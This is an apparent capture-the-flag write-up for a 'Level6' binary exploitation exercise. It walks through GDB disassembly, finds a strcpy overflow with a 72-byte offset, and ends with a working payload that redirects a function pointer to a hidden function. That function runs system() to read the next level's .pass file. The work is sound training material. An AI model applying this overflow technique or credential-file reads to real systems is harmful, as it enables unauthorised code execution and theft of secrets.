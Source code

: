 # Level6

First step - testing the program

	$ ./level6
	Segmentation fault (core dumped)
	$ ./level6 coucou
	Nope

The program segfault without parameters, print "Nope" with

Waiting a password in parameter?

Start in GDB

	gdb-peda$ pdisas main
	Dump of assembler code for function main:
	   0x0804847c <+0>:		push   ebp
	   0x0804847d <+1>:		mov    ebp,esp
	   0x0804847f <+3>:		and    esp,0xfffffff0
	   0x08048482 <+6>:		sub    esp,0x20
	   0x08048485 <+9>:		mov    DWORD PTR [esp],0x40
	   0x0804848c <+16>:	call   0x8048350 <malloc@plt>
	   0x08048491 <+21>:	mov    DWORD PTR [esp+0x1c],eax
	   0x08048495 <+25>:	mov    DWORD PTR [esp],0x4
	   0x0804849c <+32>:	call   0x8048350 <malloc@plt>
	   0x080484a1 <+37>:	mov    DWORD PTR [esp+0x18],eax
	   0x080484a5 <+41>:	mov    edx,0x8048468
	   0x080484aa <+46>:	mov    eax,DWORD PTR [esp+0x18]
	   0x080484ae <+50>:	mov    DWORD PTR [eax],edx
	   0x080484b0 <+52>:	mov    eax,DWORD PTR [ebp+0xc]
	   0x080484b3 <+55>:	add    eax,0x4
	   0x080484b6 <+58>:	mov    eax,DWORD PTR [eax]
	   0x080484b8 <+60>:	mov    edx,eax
	   0x080484ba <+62>:	mov    eax,DWORD PTR [esp+0x1c]
	   0x080484be <+66>:	mov    DWORD PTR [esp+0x4],edx
	   0x080484c2 <+70>:	mov    DWORD PTR [esp],eax
	   0x080484c5 <+73>:	call   0x8048340 <strcpy@plt>
	   0x080484ca <+78>:	mov    eax,DWORD PTR [esp+0x18]
	   0x080484ce <+82>:	mov    eax,DWORD PTR [eax]
	   0x080484d0 <+84>:	call   eax
	   0x080484d2 <+86>:	leave
	   0x080484d3 <+87>:	ret
	End of assembler dump.

There is a function pointer at line "+41", the address of this function is "0x8048468"

	(gdb-peda)$ info function
	All defined functions:

	Non-debugging symbols:
	0x080482f4  _init
	0x08048340  strcpy@plt
	0x08048350  malloc@plt
	0x08048360  puts@plt
	0x08048370  system@plt
	0x08048380  __gmon_start__@plt
	0x08048390  __libc_start_main@plt
	0x080483a0  _start
	0x080483d0  __do_global_dtors_aux
	0x08048430  frame_dummy
	0x08048454  n
	0x08048468  m
	0x0804847c  main
	0x080484e0  __libc_csu_init
	0x08048550  __libc_csu_fini
	0x08048552  __i686.get_pc_thunk.bx
	0x08048560  __do_global_ctors_aux
	0x0804858c  _fini

It's the address of the function "m", there is also a non-called function "n"

	(gdb-peda)$ pdisas m
	Dump of assembler code for function m:
	   0x08048468 <+0>:		push   ebp
	   0x08048469 <+1>:		mov    ebp,esp
	   0x0804846b <+3>:		sub    esp,0x18
	   0x0804846e <+6>:		mov    DWORD PTR [esp],0x80485d1
	   0x08048475 <+13>:	call   0x8048360 <puts@plt>
	   0x0804847a <+18>:	leave
	   0x0804847b <+19>:	ret
	End of assembler dump.

Just a call to "puts"

Let's see the non-called "n" function

	(gdb-peda)$ pdisas n
	Dump of assembler code for function n:
	   0x08048454 <+0>:		push   ebp
	   0x08048455 <+1>:		mov    ebp,esp
	   0x08048457 <+3>:		sub    esp,0x18
	   0x0804845a <+6>:		mov    DWORD PTR [esp],0x80485b0
	   0x08048461 <+13>:	call   0x8048370 <system@plt>
	   0x08048466 <+18>:	leave
	   0x08048467 <+19>:	ret
	End of assembler dump.

There is a call to the "system" function with a string on parameter

	(gdb-peda)$ x/s 0x80485b0
	0x80485b0:	"/bin/cat /home/user/level7/.pass"

We can understand the goal, need to execute the "n" function

**********************************

Searching the buffer overflow of "strcpy"

Get a pattern on https://wiremask.eu/tools/buffer-overflow-pattern-generator/

	(gdb)$ r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
	Program received signal SIGSEGV, Segmentation fault.
	0x41346341 in ?? ()

	(gdb) p $eip
	$1 = (void (*)()) 0x41346341

Paste the address on the website

The offset of the overflow is 72

The payload will be : "B"*72 + "n address"

	./level6 $(python -c 'print "B"*72+"\x54\x84\x04\x08"')

Good!
